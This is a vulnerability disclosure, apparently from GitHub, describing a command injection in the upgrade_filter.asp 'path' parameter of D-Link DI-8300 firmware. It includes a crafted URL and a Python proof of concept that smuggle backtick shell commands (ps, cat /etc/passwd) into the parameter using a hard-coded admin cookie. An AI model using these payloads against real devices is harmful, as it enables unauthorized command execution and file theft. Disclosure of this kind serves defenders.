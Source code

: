 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.

![Pasted image 20240806095532](https://github.com/user-attachments/assets/e5adcbee-a13d-41e5-85a6-649ebff9bc1b)

```
url:
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```

![Pasted image 20240806103325](https://github.com/user-attachments/assets/52fd3b63-a480-48e5-9385-9bb8b2206110)

Check the firmware shell. The command is successfully executed

![Pasted image 20240806103302](https://github.com/user-attachments/assets/331ec0a4-240e-463d-a328-4398904799f0)

# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3E/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
